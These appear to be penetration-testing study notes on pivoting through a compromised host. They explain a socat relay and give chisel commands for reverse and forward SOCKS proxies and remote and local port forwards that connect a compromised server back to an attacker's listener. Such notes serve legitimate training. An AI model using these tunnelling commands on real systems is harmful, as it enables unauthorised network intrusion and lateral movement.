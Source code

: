 What happens when we access the webpage in browser ::
1. → The request goes to 127.0.0.1:8000
1. → Due to socat listening on it anything goes in to 8000 comes out of port 8001
1. → Port 8001 is connected to socat process of the compromised server where it gets relayed to the port 80 of the target server

When target sends response :::
1. the response is sent to the socat process on the compromised server.What goes in to the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine
1. Anything that goes in to port 8001 of out attacking machine comes out of 8000 on our attacking machine, which is where the webbrowser is expecting to receive the response.

TO close ::
1. jobs
1. kill %1

* * *

## CHISEL
It is a tool used to set up tunneling proxy or port forward through a compromised system regardless of whether we have ssh access or not.
It has two modules ;:
server
client

### Reverse SOCKS Proxy ::
This connects back from a compromised server to a listener waiting on our attacking machine.
```
Attacking box → ./chisel server -p LISTEN_PORT --reverse &
THis sets up listener on our chosen port

Compromised Server → ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
THis command connects back to the waiting listener on our attacking box ,completing the proxy. 
```
### Forward SOCKS PROXY ::
Rarer then reverse proxies same as reverse shell common than bind shell
```
Compromised host → ./chisel server -p LISTEN_PORT --socks5
Attaking host →  ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
PROXY_PORT will be the port that will be opened for the proxy
```
> we need to edit /etc/proxychains.conf file → socks 127.0.0.1 1080

### Remote Port Forward ::
A remote port forward is when we connect back from a compromised target to create the forward
```
Attacking Machine → ./chisel server -p LISTEN_PORT --reverse &
Compromised Mac → ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
LISTEN_PORT → the port we started the chisel server on
LOCAL_PORT → the port we wish to open on our attacking machine to link with the desired target port
``` 
```
Compro server → ./chisel_client 172.16.0.20:1337(our IP) R:2222:172.16.0.10:22(target_ip) &
Attack machine → ./chisel_server -p 1337 --reverse &
This would allow us to access 172.16.0.22 by navigating to 127.0.0.1:2222
```
### Local Port Forward:: 
It is where we connect from our own attacking machine to a chisel server listening on a compromised target.
```
Compromised target → ./chisel server -p LISTEN_PORT 
attacking box → ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```
* * *
